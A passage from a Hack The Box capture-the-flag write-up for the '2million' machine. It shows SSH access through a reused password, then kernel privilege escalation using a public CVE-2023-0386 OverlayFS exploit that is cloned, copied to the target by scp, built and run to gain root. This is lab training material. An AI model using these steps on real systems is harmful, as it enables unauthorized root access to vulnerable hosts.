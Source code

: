> It didn't work, so I decided to try ssh woith the same password as the database and worked! Found the user flag :)

![](Pasted%20image%2020241029224133.png)

## Privilege Escalation

If we inspect the content of the `/var/mail/admin` we can infer that the OS is outdated:

```shell
admin@2million:~$ vim /var/mail/admin 

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

It's important to know the kernel of the machine first:

```shell
uname -a

Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```


So if we find in goole `overlaysfs exploit` we get this one: [CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386), and execute it in the victim's machine:

```shell
# First we clone the repo locally
git clone https://github.com/sxlmnwb/CVE-2023-0386.git

zip -r cve.zip CVE-2023-0386

# Send it to the remote machine
scp cve.zip admin@2million.htb:/tmp
```

Now perform the official instructions of the exploit:

```shell
# First install it
make all

# Now, Start two terminals and in the first one type
./fuse ./ovlcap/lower ./gc

# In the second terminal type
./exp
```

> We are now root, and got the root flag:

![](Pasted%20image%2020241029225843.png)

==Machine pwned!==